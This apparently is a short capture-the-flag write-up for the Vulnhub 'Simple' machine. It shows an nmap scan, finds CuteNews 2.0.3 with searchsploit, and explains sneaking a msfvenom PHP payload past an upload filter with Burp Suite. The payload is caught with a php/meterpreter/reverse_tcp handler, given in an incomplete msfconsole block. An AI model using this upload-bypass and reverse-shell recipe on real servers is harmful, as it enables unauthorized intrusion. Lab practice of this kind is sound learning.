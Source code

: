# Vulnhub Simple

## Enumeration
`nmap -sC -sV -Pn <ip>`

Sc : default scripts

sV : Default Versions

Pn : Skip Host discovery

Result: 

```
80/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 759585A56089DB516D1FBBBE5A8EEA57
|_http-title: Please Login / CuteNews
```

## CuteNews

It seems like there is an Apache server running. 

There was a login form and it was running on Cutenews 2.0.3
  
I ran dirb just in case, but nothing special was found. 
  
So, I searched for known vulnerabilities with cutenews 2.0.3
  
`searchsploit cutenews`
  
Result:
  
`CuteNews 2.0.3 - Arbitrary File Upload                            | php/webapps/37474.txt`

[exploit database](https://www.exploit-db.com/exploits/37474)

  
I found out cutenews 2.0.3 has a file upload vulnerability that can lead to reverse shell.

First, attacker upload malicious file through file upload function. Then, execute the malicious file with the listener pre-running. Lastly, attacker has a shell opened. 
  
This known exploit was pretty old, and "tamper data" add on from firefox was not working well for me. 
  
I decided to work with Burpsuite instead.
  
## Creating PHP backdoor
  
I got help from [hackingarticles](https://www.hackingarticles.in/web-penetration-testing-tamper-data-firefox-add/) when writing the code. 

Basically, it is about creating php shell code using msfvenom and multi handler. I should study more about this area. 
  
After creating the file `payload.php.jpg` ,turn burpsuite on.
  
From the avatar change page, select the `payload.php.jpg` file and click submit button with the burp intercept on.
  
Burp will intercept and now change the `payload.php.jpg` into `payload.php`.
  

  
  ## sd
  Open the ph file from the <ip>uploads. 
  
  Have the msfconsole pre-ready for connection. 
  
  ``use ecploit/multi/handler
  set payload php/meterpreter/reverse_tcp
  set ...
  run
  ``
